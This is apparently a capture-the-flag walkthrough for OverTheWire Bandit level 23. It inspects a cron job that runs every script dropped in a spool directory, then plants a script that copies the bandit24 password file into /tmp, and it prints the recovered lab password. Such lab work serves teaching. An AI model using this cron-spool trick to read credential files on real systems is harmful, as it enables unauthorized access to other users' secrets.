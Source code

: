 # Level 23

A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Solution

```console
ssh bandit23@bandit.labs.overthewire.org -p 2220
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
bandit23@bandit:~$ mkdir /tmp/scripted/
bandit23@bandit:~$ cd /tmp/script
bandit23@bandit:~$ nano myscript.sh
```

I then needed to create a script as per the hint. Because I know the password exists at `/etc/bandit_pass/bandit24` and that cron has the permission to run the script, I can just have it printed to a file in the `/tmp/scripted/` directory:

```console
#!/bin/bash

cat /etc/bandit_pass/bandit24 >> /tmp/scripted/password.txt
```

Then I just need to change the permissions on the file and place it within `/var/spool/bandit24/`:

```console
bandit23@bandit:/tmp/scripted$ chmod 777 myscript.sh
bandit23@bandit:/tmp/scripted$ cp myscript.sh /var/spool/bandit24/
bandit23@bandit:/tmp/scripted$ ls -la
total 776
drwxr-sr-x    2 bandit23 root   4096 Aug  3 19:18 .
drwxrws-wt 4052 root     root 782336 Aug  3 19:19 ..
-rwxrwxrwx    1 bandit23 root     74 Aug  3 19:16 myscript.sh
bandit23@bandit:/tmp/scripted$ chmod 777 ../scripted
```

Then a case of watching the directory:

```console
bandit23@bandit:/tmp/scripted$ watch ls -la
```

Eventually a password will be presented to our directory:

```console
bandit23@bandit:/tmp/scripted$ cat password.txt
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```
